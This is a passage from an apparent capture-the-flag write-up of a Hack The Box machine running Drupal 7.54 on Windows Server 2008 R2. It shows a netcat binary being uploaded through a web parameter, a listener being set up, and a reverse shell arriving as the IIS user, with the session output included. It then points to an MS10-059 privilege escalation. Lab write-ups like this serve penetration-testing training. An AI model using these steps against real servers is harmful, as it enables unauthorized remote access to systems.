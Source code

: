 It’s a 64-bit operating system. Download the 64-bit executable of netcat from [here](https://eternallybored.org/misc/netcat/). Start up a python server.

```text
python -m SimpleHTTPServer 7777
```

Upload it using the _fupload_ parameter.

![](https://miro.medium.com/max/851/1*ndGVrfi5XLXUpkvyJv02wg.png)

Then set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Use the uploaded netcat executable to send a reverse shell to our attack machine.

![](https://miro.medium.com/max/871/1*txrJaPlUZUXQAEx894ftRQ.png)

We get a shell!

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...                                                                                                                                             
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.9] 60572                                                                                                               
Microsoft Windows [Version 6.1.7600]                                                                                                                                    
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                                                                                         
                                                                                                                                                                        
C:\inetpub\drupal-7.54>whoami                                                                                                                                           
whoami                                                                                                                                                                  
nt authority\iusr
```

Grab the _user.txt_ flag.

![](https://miro.medium.com/max/624/1*KRKVIA-I2J4ZptRdur7iwA.png)

Now we need to escalate privileges.

## Privilege Escalation <a id="580f"></a>

We know from the output of the _systeminfo_ command the OS name and version.

```text
OS Name:                Microsoft Windows Server 2008 R2 Datacenter 
OS Version:             6.1.7600 N/A Build 7600
```

The [Arctic box](https://medium.com/@ranakhalil101/hack-the-box-arctic-writeup-w-o-metasploit-61a43f378c) was running the same OS, so I used the same exploit MS10–059 to escalate privileges for this box. I won’t explain it here, please refer to the the Arctic writeup.
